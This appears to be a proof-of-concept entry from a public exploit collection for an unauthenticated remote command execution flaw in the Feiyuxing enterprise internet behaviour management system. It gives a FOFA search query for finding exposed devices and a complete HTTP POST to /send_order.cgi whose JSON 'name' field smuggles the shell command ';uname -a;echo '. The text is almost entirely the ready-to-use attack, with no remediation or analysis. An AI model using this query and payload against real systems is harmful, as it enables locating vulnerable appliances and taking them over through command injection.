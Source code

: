 ## 飞鱼星上网行为管理系统企业版前台RCE


## fofa
```
title="飞鱼星企业"
```

## poc
```
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

{"opid":"777777777777777777","name":";uname -a;echo ","type":"rest"}
```

![d3caa0beea2be24633c0996d8ae8819c](https://github.com/wy876/POC/assets/139549762/1be7ce47-2ee2-476c-af85-c258c27dc95f)
